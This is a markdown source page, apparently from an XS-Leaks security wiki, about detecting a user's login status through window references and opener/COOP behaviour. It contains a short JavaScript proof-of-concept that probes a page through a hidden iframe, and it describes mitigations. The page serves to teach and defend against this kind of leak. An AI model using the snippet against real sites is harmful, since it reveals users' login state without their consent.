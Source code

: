 +++
title = "Window References"
description = ""
date = "2020-10-08"
category = [
    "Attack",
]
abuse = [
    "Window References",
]
defenses = [
    "Fetch Metadata",
    "SameSite Cookies",
    "COOP"
]
menu = "main"
weight = 2
+++


If a page sets its opener property to `null` or is using [COOP]({{< ref "/docs/defenses/opt-in/coop.md" >}}) depending on users' login status, it becomes possible to detect user's current status. For example, attackers can detect whether a user is logged in by opening an endpoint in an iframe (or a new window) which only authenticated users have access to, simply checking its window reference.

## Code Snippet
The below snippet demonstrates the attack where the target page is supposedly only accessible to authenticated users and is setting its `opener` property to null (or is using COOP with value other than `unsafe-none`):

```javascript
const url = 'https://example.org/profile';

const exploit = url => {
  document.body.insertAdjacentHTML('beforeend', '<iframe name="xsleaks" style="height:700px;width:100%;display:none">');
  const win = open(url, 'xsleaks');
  setTimeout(() => {
    if(!win) console.log('User\'s logged in- reference not defined');
  }, 2000);
}
exploit(url);
```
In case the page is not framable (or uses SameSite cookies), we can instead open the page in a new tab (`target="_blank"`) and achieve the same.

## Defense

The mitigation of this XS-Leak is to be consistent everywhere- set it to the same value in all pages using COOP. Using JavaScript to set `opener` to `null` may have edge cases because it's possible to disable JavaScript entirely using iframe's sandbox attribute.

## References

[^1]: Twitter ID exposure via error-based side-channel attack, [link](https://hackerone.com/reports/505424)
